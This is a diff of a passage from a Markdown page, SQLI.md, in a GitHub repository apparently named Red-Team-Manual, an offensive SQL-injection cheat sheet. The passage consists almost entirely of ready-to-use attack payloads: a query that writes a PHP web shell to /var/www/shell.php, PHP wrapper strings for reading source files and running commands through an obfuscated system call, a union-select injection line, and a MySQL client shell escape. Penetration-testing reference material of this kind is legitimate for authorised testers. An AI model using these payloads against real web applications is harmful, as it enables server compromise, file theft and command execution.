

Before and after one commit to 0x72303074/Red-Team-Manual, a Markdown page: 2. EXPLOITATION/WEB EXPLOITATION/SQLI.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/2. EXPLOITATION/WEB EXPLOITATION/SQLI.md
+++ b/2. EXPLOITATION/WEB EXPLOITATION/SQLI.md
@@ -208,8 +208,10 @@
         Write PHP Shell:  SELECT 'system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php'
     PHP Wrappers:
         Read File:  php://filter/convert.base64-encode/resource=.
-        RCE:  data://text/plain,<?php $a="sy";$b="stem";$c=$a.$b; $c("uname -a");?>
+        RCE:  ’ /*!50000union*/ select 1,2,3,4,5,’../index’,7,8,’php://filter/convert.base64-encode/resource=.’ -- -
+		Or:  data://text/plain,<?php $a="sy";$b="stem";$c=$a.$b; $c("uname -a");?>
     UDF RCE:  https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf (if you can write to the target system)
+    RCE via MySQL Client:  \! sh [-c id]
 
 ### Useful MySQL Queries:
 
```
